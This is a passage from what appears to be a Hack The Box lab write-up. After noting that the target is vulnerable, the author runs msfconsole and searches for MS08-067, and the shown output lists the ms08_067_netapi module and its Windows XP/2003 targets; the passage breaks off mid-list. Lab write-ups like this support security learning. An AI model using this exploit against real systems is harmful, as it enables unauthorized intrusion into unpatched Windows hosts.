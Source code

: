 It is vulnerable!
Let's try exploit with `msfconsole`.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole -q                      
msf6 > search MS08-067

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
   1     \_ target: Automatic Targeting                                 .                .      .      .
   2     \_ target: Windows 2000 Universal                              .                .      .      .
   3     \_ target: Windows XP SP0/SP1 Universal                        .                .      .      .
   4     \_ target: Windows 2003 SP0 Universal                          .                .      .      .
   5     \_ target: Windows XP SP2 English (AlwaysOn NX)                .                .      .      .
   6     \_ target: Windows XP SP2 English (NX)                         .                .      .      .
   7     \_ target: Windows XP SP3 English (AlwaysOn NX)                .                .      .      .
   8     \_ target: Windows XP SP3 English (NX)                         .                .      .      .
   9     \_ target: Windows XP SP2 Arabic (NX)                          .                .      .      .
   10    \_ target: Windows XP SP2 Chinese - Traditional / Taiwan (NX)  .                .      .      .
   11    \_ target: Windows XP SP2 Chinese - Simplified (NX)            .                .      .      .
   12    \_ target: Windows XP SP2 Chinese - Traditional (NX)           .                .      .      .
   13    \_ target: Windows XP SP2 Czech (NX)                           .                .      .      .
   14    \_ target: Windows XP SP2 Danish (NX)                          .                .      .      .
   15    \_ target: Windows XP SP2 German (NX)                          .                .      .      .
   16    \_ target: Windows XP SP2 Greek (NX)                           .                .      .      .
   17    \_ target: Windows XP SP2 Spanish (NX)                         .                .      .      .
   18    \_ target: Windows XP SP2 Finnish (NX)                         .                .      .      .
   19    \_ target: Windows XP SP2 French (NX)                          .                .      .      .
   20    \_ target: Windows XP SP2 Hebrew (NX)                          .                .      .      .
   21    \_ target: Windows XP SP2 Hungarian (NX)                       .                .      .      .
   22    \_ target: Windows XP SP2 Italian (NX)                         .                .      .      .
   23    \_ target: Windows XP SP2 Japanese (NX)                        .                .      .      .
```